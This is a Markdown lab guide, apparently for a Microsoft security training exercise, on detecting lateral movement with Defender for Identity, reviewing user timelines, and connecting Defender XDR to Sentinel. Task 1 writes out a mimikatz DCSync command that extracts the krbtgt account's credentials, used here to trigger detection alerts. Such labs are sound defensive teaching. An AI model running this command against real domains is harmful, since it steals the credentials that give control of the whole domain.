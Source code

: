### Task 1: Simulate and Detect Lateral Movement Attacks `(Read-Only)`

In this task, you will simulate a Lateral Movement attack and detect it using Microsoft Defender for Identity. Please note that this is a `read-only` task, as you will be logged out of your virtual machine during the attack simulation—this is a security measure enforced by Defender for Identity.

1. Open **PowerShell (Admin)** and navigate to the below mentioned directory.

      ```powershell
      cd C:\MimikatzLab\mimikatz-master\mimikatz-master\x64
      ```
1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:yourdomain.com /user:krbtgt
      ```

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](./media/E1T3S3upd1.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

      ![](./media/E1T3S3upd.png)
      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

### Task 2: Investigate Threats and User Timelines 

In this task you will analyze using user timelines and alert details in the Defender portal.

1. In the Microsoft Defender portal, in the search bar, type `demouser` and select it.

      ![](./media/E1T3S1.png)

1. Click on **Go to user page**

      ![](./media/E1T3S2.png)

1. In the user profile, click the **Timeline** tab to view all events and alerts.

      ![](./media/E1T3S3.png)

### Task 3: Integrate Defender for Identity with Microsoft 365 Defender Portal

In this task you will enable integration to view Defender for Identity incidents in the unified Microsoft 365 Defender portal and Microsoft Sentinel.

1. Navigate to `portal.azure.com` and navigate to **Microsoft Sentinel** and select `loganalyticworkspace`.

      ![](./media/E1T4S1.png)

1. In the left-hand pane, click **Content hub**. 

      ![](./media/Lab02-task1-contenthub1.png)

1. Search for **Defender for XDR** and select it and click on **Install** and wait for the installation to be complete

      ![](./media/E1T4S3.png)

1. Return to the Sentinel workspace and navigate to **Data Connectors** and click on  **Defender for XDR** and select **Open connector page**.

      ![](./media/E1T4S4.png)

1. Click on **Connect incidents & alerts** and navigate back to Data connectors page and make sure that **Defender for XDR** shows as connected

      ![](./media/E1T4S5.png)
